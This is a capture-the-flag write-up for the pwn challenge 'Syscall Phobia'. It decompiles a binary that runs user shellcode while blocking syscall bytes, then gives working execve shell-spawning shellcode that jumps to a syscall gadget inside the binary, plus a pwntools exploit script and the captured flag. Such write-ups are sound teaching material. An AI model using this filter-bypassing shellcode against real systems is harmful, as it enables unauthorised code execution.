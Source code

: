 # Syscall Phobia

> 150 | Pwn
> 
> Timmy has created a program to execute any x86_64 bytecode instructions! However, Timmy has an absolute detest for syscalls, and does not want anyone to insert syscalls into their instructions. This will make it a little secure... right?
> 
> This challenge server can be accessed here:
> 
> (Any one of the options below is fine)  
> (Suggested access via 'nc')  
> nc ctf-85ib.balancedcompo.site 9998  
> _(9 more nc endpoints)_ 
> 
> Files (Any of the links are fine):  
> https://nusdsoctf2.s3-ap-southeast-1.amazonaws.com/S3/Syscall_Phobia/syscall-phobia  
> https://nusdsoctf.s3-ap-southeast-1.amazonaws.com/S3/Syscall_Phobia/syscall-phobia  
> [Attachment: syscall-phobia](./challenge/syscall-phobia)

Writeup by [@4yn](https://github.com/4yn)

Try to run the executable:

```
$ ./challenge/syscall-phobia
Enter your hexadecimal bytecode here and we will execute it for you!
We absolutely hate syscalls so please DO NOT enter syscall instructions here :D
Example: 554889e5c9c3

Enter assembly bytecode here! (No syscalls please, tenks): 
[I press enter without keying in any shellcode]

Executing your assembly code!
Segmentation fault (core dumped)
```

Decompile with ghidra:

```c++
undefined8 FUN_00400a2c(void)

{
  size_t sVar1;
  void *pvVar2;
  char local_118 [260];
  int local_14;
  code *local_10;
  
  local_10 = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  puts("Enter your hexadecimal bytecode here and we will execute it for you!");
  puts("We absolutely hate syscalls so please DO NOT enter syscall instructions here :D");
  puts("Example: 554889e5c9c3\n");
  puts("Enter assembly bytecode here! (No syscalls please, tenks): ");
  fflush(stdout);
  fgets(local_118,200,stdin); // Get up to 
  sVar1 = strcspn(local_118,"\n");
  local_118[sVar1] = '\0';
  local_14 = FUN_004008f6(local_118,local_10,local_10); // Converts hex string input to raw byte array
  pvVar2 = memmem(local_10,(long)local_14,&DAT_00400d5e,2); // DAT_00400d5e is text pointer to 0x0f05
  if (pvVar2 == (void *)0x0) { // Check if shellcode contains syscall
    pvVar2 = memmem(local_10,(long)local_14,&DAT_00400d61,2); // DAT_00400d61 is text pointer to 0xcd80
    if (pvVar2 == (void *)0x0) { // Check if shellcode contains interrupt
      puts("Executing your assembly code!");
      fflush(stdout);
      DAT_006020a0 = local_10;
      (*local_10)(); // Run shellcode
      return 0;
    }
  }
  puts("Hey! I told you no syscalls! :(");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

We want to make a shellcode that pops a shell, but any instance of `0f05` / syscall or `cd80` / interrupt instructions will prevent execution.

A quick checksec shows that the elf does not have PIE enabled.

```python
from pwn import *
e = ELF('./challenge/syscall-phobia')
e.checksec()
"""
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
"""
```

To solve this, instead of having a syscall instruction in the shellcode, we ROP to a syscall instruction somewhere else inside the binary.

```python
r = ROP(e)
assembly = shellcraft.sh()
assembly = assembly.replace("syscall", f"push {hex(r.syscall.address)}\n    ret")
print(assembly)
"""
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    push 0x400d5e
    ret
"""

shellcode = asm(assembly)
print(shellcode.hex())
"""
6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b58685e0d4000c3
"""
```

Once in the server, just cat the flag. Note that the server's `$PATH` was polluted and we need to use the full path to `cat`.

```python
# For local test
r = process(binary_path)
# For live challenge
# r = remote('ctf-85ib.balancedcompo.site', 9998) 

r.read()
r.sendline(shellcode.hex())
r.interactive()
```

```bash
$ /bin/cat flag.txt
DSO-NUS{a5a5ab1dc69bb9ffb55e75bdc290313d7d7137e653c98e66cc23dc042b2046bc}
```